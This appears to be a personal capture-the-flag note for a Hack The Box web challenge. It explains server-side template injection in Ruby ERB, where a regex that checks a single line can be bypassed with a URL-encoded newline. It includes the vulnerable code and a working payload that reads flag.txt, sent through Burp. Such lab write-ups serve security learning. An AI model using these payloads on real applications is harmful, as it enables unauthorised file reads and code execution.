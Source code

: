 
2024-09-21 18:51

Source: #htb #web 

Tags: [[Server-side template injection (SSTI)]]

Source Code Snippet - 
```ruby
if params[:neon] =~ /^[0-9a-z ]+$/i  
	@neon = ERB.new(params[:neon]).result(binding)  
else  
	@neon = "Malicious Input Detected"  
end
```

> And also, there is interesting situation. Even if you can use `%` in request , you can't use it in browser. you still will get “**Malicious Input Detected**” message.
> 
> But when you use it in **Burp suite** :
> You will see that we get “**Invalid query parameters: invalid %-encoding (a %)**” message.  
> It means something is wrong in our encoding but it still allows to send `%`

We send the request in burp w payload (url encode this)-  
```ruby
a  
<%= File.open('flag.txt').read %>
```

we need to pass the main payload in a new line . Why ?
in the above code `@neon` gets the parameter which we input and sends it to `index.erb`
If we want to run this code, In this code,  :

```html
<%= File.open('flag.txt').read %>
```

we have to pass new line like this :

```html
<h1 class="glow"><%= @neon  
<%= File.open('flag.txt').read %>%></h1>
```

And we can't leave `@neon` empty , that's why we write it like :

```html
<h1 class="glow"><%= a  
<%= File.open('flag.txt').read %>%></h1>
```

We need to use new line, but we cant use `/n`, we need to encode `/n` too.
do `/n` encoding in burps decoder or just go to [this website](https://www.urlencoder.org/) and encode it w/o `/n`

### References

SSTI for apps written in Ruby  https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#ruby---retrieve-etcpasswd

https://medium.com/@nurlanisazade/hack-the-box-neonify-walkthrough-guided-mode-cbd8d71962f9